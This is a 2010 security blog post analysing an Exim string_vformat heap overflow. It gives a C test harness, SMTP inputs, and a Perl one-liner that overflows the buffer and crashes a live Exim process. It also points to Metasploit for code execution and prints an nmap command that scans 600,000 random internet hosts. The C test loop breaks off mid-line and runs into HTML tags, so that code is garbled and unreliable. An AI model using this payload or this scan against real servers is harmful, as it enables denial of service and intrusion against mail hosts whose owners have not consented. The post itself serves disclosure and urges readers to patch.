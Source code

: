 ```yaml
---
id: 995
title: 'Watch out for exim!'
date: '2010-12-15T09:24:49-05:00'
author: 'Ron Bowes'
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=995'
permalink: /2010/watch-out-for-exim
categories:
    - Hacking
    - 'Reverse Engineering'
    - Tools
---
```


Hey everybody,

Most of you have probably heard of the [exim vulnerability](http://www.exim.org/lurker/message/20101207.215955.bb32d4f2.en.html) this week. It has potential to be a nasty one, and my brain is stuffed with its inner workings right now so I want to post before I explode!

First off, if you're concerned that you might have vulnerable hosts, I wrote a plugin for [Nessus](http://nessus.org) to help you find them (I'm not sure if it's in the ProfessionalFeed yet - if it isn't, it will be soon). There's no Nmap script yet, but my sources tell me that it's in progress (keep an eye on [my Twitter account](https://twitter.com/iagox86) for updates on that).

## The vulnerability

The vulnerability is actually a pretty old one. It was [fixed two years ago](http://bugs.exim.org/show_bug.cgi?id=787) (December of 2008). If you look at [the patch](http://git.exim.org/exim.git/commitdiff/24c929a2), it doesn't tell you much. The obvious thing to do, then, is to [download the code](http://exim.mirror.iphh.net/ftp/exim/exim4/exim-4.69.tar.bz2) and try to break it! So let's do that...

The first step is to extract the source and compile it. My strategy was to keep running 'make' and fixing what it complained about until it shut up and compiled. Exim's compilation is annoying like that. You may have more luck reading the manual -- both good!

Once it's built, I decided to take a look at the patched function. It's called string\_vformat() in src/string.c. It's very long, but here's the prototype:

```
BOOL string_vformat(uschar *buffer, int buflen, char *format, va_list ap);
```

Aha! buffer, buflen, format, and a va\_list - it looks like sprintf() to me! Looking one function up, where it's called from, we find string\_format(), which is basically a wrapper around string\_vformat():

```
BOOL string_format(uschar *buffer, int buflen, char *format, ...)
```

Based on the patch and the nature of the function, it was obviously the %s format specifier that was being changed, and it seemed to have something to do with the bounds checking. Rather than reading/understanding all that complicated code, I decided to send stuff into that function and see if I could get it to write off its own buffer. Simple, eh?

So here's the first test I wrote (I took the lazy approach and replaced the real main() function in exim.c with this) (I swear this is the first thing I tried.. I must be lucky or something!):

```
int main(int argc, char *argv[])
{   
    char buffer[16];
    int i, j;

    for(i = 1; i 
<p>Simple enough! We start by setting the buffer length to 1, which should produce an empty string (since the string is terminated with a NULL byte '\x00'). Then we should see 'T', then 'TE', 'TES', etc. Here's what the result is:</p>
$ make
[...]
$ build-Linux-x86_64/exim
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
54 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
54 45 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
54 45 53 00 00 00 00 00 00 00 00 00 00 00 00 00 
54 45 53 54 41 41 41 41 41 41 41 41 41 41 41 41 
54 45 53 54 00 00 00 00 00 00 00 00 00 00 00 00 
54 45 53 54 41 00 00 00 00 00 00 00 00 00 00 00
Segmentation fault

<p>Woah, what have we here? When the max length is set to 5, all hell breaks loose! It even manages to segfault my test program (thanks, obviously, to a stack overflow). A quick check shows us that the '%s' is exactly 5 characters into the string, which just happens to be 'buflen'. Testing with other strings will prove that if '%s' is at the index of 'buflen', 'buflen' is ignored and the string will be written right off the end of the buffer into whatever happens to be next. </p>
<p>Now, that leads to the obvious question: where can we find a case where we can control 'buflen' to ensure that '%s' ends up in exactly the right place? That's a rare condition indeed! And this is where I got a little stuck. To help track it down, I added some output to string_vformat() that displays the format string, buflen, and the output every time it runs. Then I did some normal transactions and looked at the output. Here's how (remove the newlines to test this yourself.. I only have so much horizontal room to work with):</p>
echo -ne 'EHLO domain\r\nMAIL FROM: test@test.com\r\n
    RCPT TO: test@localhost\r\nDATA\r\n
    This is some data!\r\n.\r\n' | sudo ./exim -bs
<p>This builds an SMTP request with echo and sends it to the exim binary. 'exim -bs' is how exim is run when it's used as inetd, which means it's expecting network traffic to come in stdin. Here are the strings that came into string_vformat():</p>
string_vformat: [250] 'initializing' => initializing
string_vformat: [48] '%s' => root
string_vformat: [128] '%s' => /root
string_vformat: [128] '%s' =>
string_vformat: [128] '%s' => /bin/bash
string_vformat: [250] 'accepting a local %sSMTP message from ' => 
accepting a local SMTP message from <root>
string_vformat: [32768] 'SMTP connection from %s' => SMTP connection from root
string_vformat: [32768] '%s/log/%%slog' => /var/spool/exim/log/%slog
string_vformat: [8171] '%s' => SMTP connection from root
string_vformat: [16384] '%s' => 220 ankh ESMTP Exim 4.69 
Tue, 14 Dec 2010 20:01:28 -0600

string_vformat: [32768] '%.3s %s Hello %s%s%s' => 250 ankh Hello root at domain
string_vformat: [16384] '250 OK
' => 250 OK

string_vformat: [32768] 'ACL "%s"' => ACL "acl_check_rcpt"
string_vformat: [16384] '250 Accepted
' => 250 Accepted

string_vformat: [16384] '354 Enter message, ending with "." on a line by itself
' => 354 Enter message, ending with "." on a line by itself

string_vformat: [208] ' id=%s' =>  id=1PSggK-0002bd-0P
string_vformat: [32768] '%sMessage-Id: 
' => Message-Id: <e1psggk-0002bd-0p>

string_vformat: [32768] '%sFrom: %s%s%s%s
' => From: test@test.com

string_vformat: [32768] '%sDate: %s
' => Date: Tue, 14 Dec 2010 20:01:28 -0600

string_vformat: [32768] '%s; %s
' => Received: from root (helo=domain)
        by ankh with local-esmtp (Exim 4.69)
        (envelope-from <test>)
        id 1PSggK-0002bd-0P
        for test@localhost; Tue, 14 Dec 2010 20:01:28 -0600

string_vformat: [32768] 'ACL "%s"' => ACL "acl_check_data"
string_vformat: [8154] '%s' =>  /var/spool/exim/log/mainlog
string_vformat: [16384] '250 OK id=%s
' => 250 OK id=1PSggK-0002bd-0P

string_vformat: [128] '%s lost input connection' => ankh lost input connection
string_vformat: [16384] '%s %s
' => 421 ankh lost input connection

string_vformat: [32768] 'SMTP connection from %s' => SMTP connection from root
string_vformat: [8171] '%s lost%s' => SMTP connection from root lost
</test></e1psggk-0002bd-0p></root>
<p>Looking down that list, none of those are obvious places where we can control the length of the format string. Damn! I tried a bunch of other variations without any luck. Things weren't looking good.. I was stuck! </p>
<p>Fortunately, <a href="http://www.exim.org/lurker/message/20101207.215955.bb32d4f2.en.html">the original post</a> had a mostly complete packet dump. After playing for awhile, I finally figured out that sending a bunch of DATA headers, plus the 50mb of garbage, did something interesting! Here's the command I used (again, remove the linebreaks to try this):</p>
$ perl -e 'print "EHLO domain\r\nMAIL FROM: test@test.com\r\n
    RCPT TO: test@localhost\r\nDATA\r\n" . "This: is some data\r\n"x100 . 
    "This is more data!\r\n"x5000000 . "\r\n.\r\n"' | ./exim -bs
<p>And here's how the log looked:</p>
string_vformat: [8018] '%c %s' =>   This: is some data
string_vformat: [7997] '%c %s' =>   This: is some data
string_vformat: [7976] '%c %s' =>   This: is some data
string_vformat: [7955] '%c %s' =>   This: is some data
string_vformat: [7934] '%c %s' =>   This: is some data
string_vformat: [7913] '%c %s' =>   This: is some data
string_vformat: [7892] '%c %s' =>   This: is some data
.....down to 0
<p>Great, this looks good! ... but why does it work?</p>
<p>Well, it turns out that if a message is rejected (because, for example, it's too large), the headers for the message are logged in a buffer, one at a time. When each one is logged, the buffer is shortened, which means by tweaking the length of the headers we can control the 'buflen' field. Since the format specifier '%s' is at the third character in the string, we want to end up with three bytes left then add a huge string to the buffer that overwrites the heap. </p>
<p>So now, we do a whole lot of complicated math and a ton of patience, we whittle the buffer to three bytes, then overflow the crap out of it:</p>
$ perl -e 'print "EHLO domain\r\nMAIL FROM: test@test.com\r\n
    RCPT TO: test@localhost\r\nDATA\r\n" . "This: is some data\r\n"x381 . 
    "Final: AAAA\r\nBoom: " . "A"x50000 . "This is more data!\r\n"x5000000 . 
    "\r\n.\r\n"' | ./exim -bs
220 ankh ESMTP Exim 4.69 Tue, 14 Dec 2010 20:19:10 -0600
250-ankh Hello ron at domain
250-SIZE 52428800
250-PIPELINING
250 HELP
250 OK
250 Accepted
354 Enter message, ending with "." on a line by itself
Segmentation fault

<p>Bodabing! Overflow successful. </p>
<p>The hard part is getting all the sizes, headers, etc just right. The easy part is turning this into code execution -- take a look at <a href="http://www.metasploit.com/modules/exploit/unix/smtp/exim4_string_format">Metasploit</a> to find out that part. </p>
<h2>Who's vulnerable?</h2>
<p>Any 4.6x version of Exim is potentially vulnerable, and possibly earlier versions too. The problem is, different versions may have different logging formats, which means the carefully selected count we did to overflow the buffer isn't going to cut it. So in reality, 4.69-debian is highly vulnerable, because that's what Metasploit and Nessus target; other versions may be as well. </p>
<p>So that naturally leads to the question - how many people are running Exim 4.69? Well, my friend bob, always the troublemaker, decided to scan 600,000 hosts on port 25 to see what's running. I don't recommend following in his footsteps, but this is the command he used:</p>
$ sudo ./nmap -n -d --log-errors -PS25 -p25 --open -sV -T5 -iR 600000 
    -oA output/smtp-versions
<p>Here are the top 10 versions returned (I removed the versions that Nmap didn't recognize), along with their associated counts:</p>
    240 25/tcp open  smtp    syn-ack Postfix smtpd
    206 25/tcp open  smtp    syn-ack Exim smtpd 4.69
     96 25/tcp open  smtp    syn-ack Microsoft ESMTP 6.0.3790.4675
     78 25/tcp open  smtp    syn-ack qmail smtpd
     77 25/tcp open  smtp    syn-ack netqmail smtpd 1.04
     40 25/tcp open  smtp    syn-ack BorderWare firewall smtpd
     22 25/tcp open  smtp    syn-ack Microsoft ESMTP
     21 25/tcp open  smtp    syn-ack Microsoft ESMTP 6.0.3790.3959
     19 25/tcp open  smtp    syn-ack Cisco PIX sanitized smtpd
     18 25/tcp open  smtp    syn-ack Sendmail 8.13.8/8.13.8

<p>Based on those numbers, I think it's safe to say that Exim smtpd 4.69 is the second most popular SMTP server in the universe. <a href="http://www.skullsecurity.org/blogdata/smtp-versions-count.txt">Here's a complete listing</a>. I considered posting the full Nmap log, but I was worried that one of the servers' owners might notice and be upset at Bob. And I don't want to make any extra trouble for him! </p>
<h2>Conclusion</h2>
<p>The conclusion to this is simple: To all those people running vulnerable (or potentially vulnerable) versions of exim: patch! Patch now! This is an incredibly easy exploit to pull off, and there are public versions everywhere. Protect yourself! </p>
<p>And if you don't have a Nessus ProfessionalFeed, get one and you can test your network right now! </p>
```